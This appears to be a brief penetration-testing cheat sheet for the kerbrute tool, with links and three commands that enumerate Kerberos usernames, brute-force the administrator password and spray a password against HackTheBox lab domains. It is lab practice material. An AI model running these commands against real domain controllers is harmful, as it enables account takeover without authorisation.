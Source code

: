 https://github.com/ropnop/kerbrute
https://hackingarticles.in/a-detailed-guide-on-kerbrute/

```
./kerbrute userenum --dc dc01.ghost.htb -d ghost.htb ~/wordlists/wordlists/SecLists/Usernames/top-usernames-shortlist.txt

./kerbrute bruteuser --dc dc01.ghost.htb -d ghost.htb ~/wordlists/wordlists/SecLists/Passwords/xato-net-10-million-passwords-10000.txt administrator

./kerbrute passwordspray --dc dc01.infiltrator.htb -d infiltrator.htb users.txt 'WAT?watismypass!'
```